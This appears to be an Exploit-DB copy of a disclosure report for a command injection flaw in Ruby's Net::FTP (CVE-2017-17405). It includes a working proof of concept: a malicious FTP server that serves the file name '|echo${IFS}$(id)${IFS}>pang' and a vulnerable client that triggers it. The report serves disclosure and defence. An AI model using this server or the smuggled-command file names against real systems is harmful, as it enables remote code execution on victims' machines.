While using NET::Ftp I realised you could get command execution through "malicious" file names.

The problem lies in the `gettextfile(remotefile, localfile = File.basename(remotefile))` method.
When looking at the source code, you'll note:

```
def gettextfile(remotefile, localfile = File.basename(remotefile),
                &block) # :yield: line
  f = nil
  result = nil
  if localfile
    f = open(localfile, "w") # Vulnerable code here. open("| os command","w")
  elsif !block_given?
    result = String.new
  end
```

The `localfile` value will trigger command execution if the value is `| os command`. In general use, most users would likely provide their own localfile value and would not rely on the default of `File.basename(remotefile)`; however, in some situations, such as listing and downloading all files in a FTP share, the remotefile value would be controlled by the remote host and could thus be manipulated into causing RCE. Since the file path is simply a string returned by the server (either `ls -l` style for the `LIST` command, or filenames for `NLIST`), there is no need/guarantee that filename will be a valid filename.

I have attached a sample server that can be used to trigger this vulnerability, as well as a sample client which is vulnerable.

## Usage:
Change the `host` and `port` values in both //ftpserver.rb// and //client.rb//

Start the server: `ruby ftpserver.rb`
Run the client: `ruby client.rb`

Observe that a new file has been created in the CWD of the //client.rb//. The file will be called `pang` and contain the output of the `id` command. As seen in screenshot1.png

The provided attack example is a little contrived and assumes the user is accepting the file names provided by the server, rather than their own. However, since there is no clear indication in the documentation or an expectation that filenames could lead to RCE, users may be caught unaware. It would probably be best to not use `open` in NET::Ftp, but rather something like `File.open`, maintaining both expected behaviour and security.

## Impact
Remote code execution through command injection. As a user of the NET::Ftp is expecting normal file creation behaviour, they might not be sanitising file paths.

--cilent.rb--
```
require 'net/ftp'
host = '172.17.0.4'
port = 2121

Net::FTP.const_set('FTP_PORT',port)
Net::FTP.open(host) do |ftp|
  ftp.login
  fileList = ftp.nlst('*')
  fileList.each do |file|
        ftp.gettextfile(file)
  end
end
```
--cilent.rb--

- - - 

--ftpserv.rb--
```
require 'socket'
host = '172.17.0.4'
port = 2121
hostsplit = host.tr('.',',')

server = TCPServer.new port

loop do
  Thread.start(server.accept) do |client|
    client.puts "220 Attack FTP\r\n"
    r = client.gets
	puts r
	client.puts "331 password please - version check\r\n"	
    r = client.gets
	puts r
	client.puts "230 User logged in\r\n"
    r = client.gets
	puts r
	client.puts "230 more data please!\r\n"	
    r = client.gets
	puts r
	client.puts "230 more data please!\r\n"	
    r = client.gets
	puts r

	wait = true
    psv = Thread.new do
		pserver = TCPServer.new 23461
		Thread.start(pserver.accept) do |pclient|
            while wait do
            end
			pclient.puts "|echo${IFS}$(id)${IFS}>pang\r\n"
			pclient.close
		end
    end

    sleep 1

	client.puts "227 Entering Passive Mode ("+hostsplit+",91,165)\r\n"
    r = client.gets
	puts r

    psv.join

	client.puts "150 Here comes the directory listing.\r\n"
    
    wait = false

	client.puts "226 Directory send OK.\r\n"
    r = client.gets
	puts r
	client.puts "221 goodbye\r\n"	
    client.close
  end
end
```
--ftpserv.rb--

- - -
E-DB Note: https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/
E-DB Nte: https://hackerone.com/reports/294462